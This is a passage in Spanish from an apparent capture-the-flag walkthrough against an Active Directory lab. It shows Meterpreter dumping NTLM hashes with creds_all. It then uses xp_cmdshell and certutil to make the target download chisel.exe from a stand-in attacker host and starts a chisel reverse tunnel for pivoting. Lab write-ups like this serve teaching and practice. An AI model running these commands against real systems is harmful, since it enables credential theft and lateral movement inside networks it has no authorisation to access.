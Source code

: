 Obtengamos las contraseñas:
```bash
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username       Domain        NTLM    SHA1    DPAPI
--------       ------        ----    ----    -----
Administrator  darkzero-ext  696...  935...  07f...
...
```
Ahí tenemos los **hashes NTLM**.

Si queremos, podemos obtener una sesión con **psexec** desde nuestra máquina, pero sería necesario aplicar **Reverse Port Forwarding**.

Lo haremos a continuación, pero es totalmente opcional.

<br>

<h2 id="Pivot">Opcional: Realizando Reverse Port Forwarding con Chisel para Conectarnos a Máquina AD2 con psexec (Pivoting)</h2>

Para hacer esto, utilizaremos **chisel** que puedes descargar en el siguiente link:
* <a href="https://github.com/jpillora/chisel" target="_blank">Repositorio de jpillora: Chisel</a>

Debes descargar la versión para **Windows (chisel...windows_amd64.zip )** y para **Linux (chisel...linux_amd64.gz )**. Recuerda descomprimirlas una vez que las tengas.

Una vez que tengas la de **Windows**, abre un servidor con **python3**:
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Mandamos **chisel** al **AD2** usando el comando **certutil**:
```bash
SQL >"DC02.darkzero.ext" (dc01_sql_svc  dbo@master)> xp_cmdshell "certutil.exe -urlcache -split -f http://Tu_IP/chisel.exe C:\Temp\chisel.exe"
output                                                
---------------------------------------------------   
****  Online  ****                                    

  000000  ...                                         

  a1ee00                                              

CertUtil: -URLCache command completed successfully.
```
Comencemos a aplicar el **Reverse Port Forwarding**.

Primero, alcemos el servidor con **Chisel** para **Linux** en nuestra máquina:
```bash
./chisel server -p 4444 --reverse
2025/10/12 13:46:20 server: Reverse tunnelling enabled
2025/10/12 13:46:20 server: Fingerprint ...
2025/10/12 13:46:20 server: Listening on http://0.0.0.0:4444
```
